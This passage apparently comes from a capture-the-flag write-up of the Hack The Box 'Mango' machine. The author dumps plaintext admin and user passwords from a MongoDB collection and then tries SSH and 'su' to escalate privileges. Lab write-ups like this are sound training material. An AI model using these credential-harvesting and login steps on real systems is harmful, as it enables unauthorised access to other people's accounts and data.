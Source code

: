 I am going to have to privesc up to admin. Thinking it through and testing a few easy ways, I dawned on me that I should, as tiring as it sounds to me, keep it simple stupid. I used NoSQL to get to where I am, this was done through MongoDB. Can I go look at the data in the database itself? Sure enough I can and thanks to the [MongoDB docs](https://docs.mongodb.com/manual/reference/method/cursor.pretty/index.html) I was able to view it in a nice and pretty manner:

```sql
> show databases
admin   0.000GB
config  0.000GB
local   0.000GB
mango   0.000GB
> user admin
2020-02-17T21:13:07.470+0000 E QUERY    [js] SyntaxError: missing ; before statement @(shell):1:5
> use admin
switched to db admin
> show tables
system.version
> use config
switched to db config
> show tables
system.sessions
> use local
switched to db local
> show tables
startup_log
> use mango
switched to db mango
> show tables
users
> db.users.find().pretty()
{
        "_id" : ObjectId("5d8e25334f3bf1432628927b"),
        "username" : "admin",
        "password" : "t9KcS3>!0B#2"
}
{
        "_id" : ObjectId("5d8e25364f3bf1432628927c"),
        "username" : "mango",
        "password" : "h3mXK8RhU~f{]f5H"
}
```

So I guess I could have done the same thing I did for `admin` in burp that I did for `mango`. Not sure why I stopped other than the *"oo shiny"* aspect of getting something and following it down the rabbit hole. 

I spent too long on this part. Where my immediate first step should have just been `su admin` and then become admin, I instead wasted 30 minutes trying to ssh in and troubleshoot that. 

```console
root@discovery:~/htb/mango# ssh admin@10.10.10.162
admin@10.10.10.162's password: 
Permission denied, please try again.
admin@10.10.10.162's password: 
Permission denied, please try again.
admin@10.10.10.162's password: 
admin@10.10.10.162: Permission denied (publickey,password).
```
